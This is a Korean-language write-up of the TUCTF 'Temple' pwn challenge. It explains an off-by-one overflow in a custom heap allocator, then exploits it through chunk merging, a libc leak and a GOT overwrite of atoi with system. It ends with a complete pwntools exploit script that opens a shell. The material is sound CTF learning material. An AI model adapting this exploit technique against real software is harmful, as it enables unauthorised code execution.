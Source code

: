 Temple 500 (pwn)
=============

### 1. Introduction

| RELRO         | STACK CANARY | NX         | PIE    | RPATH    | RUNPATH    | FILE   |
|---------------|--------------|------------|--------|----------|------------|--------|
| Partial RELRO | Canary found | NX enabled | No PIE | No RPATH | No RUNPATH | temple | 

64 bit binary이며 https://tuctf.asciioverflow.com/files/1f9420bff145019e01b2446288e8dd37/mm.c 소스로 만들어진 custom malloc/custome free를 바이너리 내부에서 사용한다.

### 2. Reversing
```c
// wisdom struct

struct chunk
{
  int content_len;
  char *content;
  int m_check_len;
  char *m_check;
};
```

[1] Take wisdom  
- write(1, *content, content_len);
- write(1, *m_check, m_check_len);
- 만약에 m_check가 'Neonate\n'면 a1+8을 mm_free하며 그게 아니면 일반적인 mm_free를 한다.

[2] Give wisdom  
- 32byte chunk struct를 할당하고 content를 입력받고 m_check를 Neonate로 바꾼다.

[3] Rethink wisdom  
- content_len에 맞게 content를 입력받는다.

### 3. Vulnerability
```c
__int64 __fastcall readbytes(char *a1, int a2)
{
  fgets(a1, a2 + 1, stdin);
  return (a2 + 1);
}
```

readbytes 함수에서 size+1만큼 입력받아서 1byte overflow가 발생한다. 이것을 이용하여 익스플로잇을 할 수 있다.

### 4. Exploit

할당하는 chunk의 struct가 기본 malloc의 struct와 다른점은 prev_size와 size영역이 free가 되지 않더라도 둘다 남아있다는 점이다. 이 두개를 free할때 free청크가 두개있으면 청크 size를 합쳐서 큰 청크로 만들어주는데, 1byte overflow로 prev_size를 overwrite하여 원하는 힙 위치에 원하는 size를 입력시킬 수 있다.
이를 이용해서 content_len을 큰 사이즈로 overwrite하면 heap_overflow를 일으킬 수 있으며 Rethink와 Take를 이용하여 leak과 got overwrite를 해서 풀 수 있다.

``` python
from pwn import *

e = ELF('./temple')
s = remote('temple.tuctf.com', 4343)
l = ELF('./libc.so.6')

def take(index):
	s.sendlineafter('Your choice: ','1')
	s.sendlineafter('seek?: ',index)

def give(size,content):
	s.sendlineafter('Your choice: ','2')
	s.sendlineafter('hold?: ',size)
	s.sendlineafter('wisdom?: ',content)

def rethink(index,content):
	s.sendlineafter('Your choice: ','3')
	s.sendlineafter('rethink?: ',index)
	s.sendlineafter('differently?: ',content)

give(str(0x10),'A' * 0x9)
give(str(0x10),p64(0x21) + p64(0xf0-0x30))
give(str(0x10),'A' * 0x9)
give(str(0x10),'A' * 0x9)
give(str(0x10),'A' * 0x9)
give(str(0x10),'B' * 0x9)
give(str(0x10),'A' * 0x9)
give(str(0x10),'A' * 0x9)
give(str(0x10),'A' * 0x9)
give(str(0x10),'A' * 0x9)
rethink('10','C' * 0x10 + '\x60') # 1byte overflow
take('11')
give(str(0x10),'C' * 0x9)


payload = 'A' * 0x10

# chunk 1
payload += p64(0x21) + p64(0x31) + p64(0x20) + p64(e.got['atoi'])
payload += p64(0x8) + p64(0x401d61)

# chunk 2
payload += p64(0x31) + p64(0x21) + 'A' * 0x10

# chunk 3
payload += p64(0x21) + p64(0x31) + p64(0x240) + p64(0x602f50)
payload += p64(0x8) + p64(0x401d60)

# chunk 4
payload += p64(0x31) + p64(0x21) + 'A' * 0x10

rethink('13',payload)
take('15')
s.recvuntil('\x7f')
s.recvuntil('\x7f')
s.recv(2)
print hex(u64(s.recv(8)[:6] + "\x00" * 2))
libc_base = u64(s.recv(8)[:6] + "\x00" * 2) - l.symbols['puts']
system = libc_base + l.symbols['system']

log.info('LIBC_BASE : ' + hex(libc_base))

rethink('14',p64(system))

s.interactive()
```


